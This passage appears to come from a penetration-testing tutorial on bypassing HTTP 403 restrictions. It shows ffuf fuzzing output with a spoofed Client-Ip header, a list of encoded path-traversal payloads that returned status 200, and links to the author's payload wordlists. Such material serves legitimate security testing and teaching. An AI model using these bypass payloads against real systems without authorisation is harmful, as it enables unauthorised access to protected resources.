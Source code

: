  :: Method           : GET
 :: URL              : https://example.com/PATH
 :: Wordlist         : PATH: /home/coffinxp/payloads/403_url_payloads.txt
 :: Header           : Client-Ip: 127.0.0.1
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://172.23.96.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 0
________________________________________________

%3b/%2f%2f../           [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 344ms]
%3b%2f%2e%2e            [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 355ms]
%2f?;                   [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 360ms]
#                       [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 364ms]
%2f                     [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 414ms]
%3b%2f%2e.              [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 401ms]
%3b//%2f../             [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 421ms]
%3b/%2e.                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 436ms]
%2f%2f                  [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 442ms]
%3b%2f..                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 416ms]
%3b/..                  [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 435ms]
%2f/                    [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 451ms]
#?                      [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 466ms]
/                       [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 341ms]
/#                      [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 347ms]
/%2e%2f/                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 371ms]
/%2e/                   [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 346ms]
/%2e//                  [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 374ms]
/%2f                    [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 391ms]
/..;/../                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 343ms]
/..;//../               [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 437ms]
/.//                    [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 363ms]
/./                     [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 499ms]
//                      [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 350ms]
//./                    [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 334ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

This command tests each custom header with various paths from the wordlist by sending requests through Burp Suite. It helps identify 403 bypasses by combining different header and path payloads, with all traffic visible for analysis in your burp history.

You can download these wordlists directly from my GitHub repository:

payloads/403_header_payloads.txt at main · coffinxp/payloads
Contribute to coffinxp/payloads development by creating an account on GitHub.
github.com

payloads/403_url_payloads.txt at main · coffinxp/payloads
Contribute to coffinxp/payloads development by creating an account on GitHub.
github.com
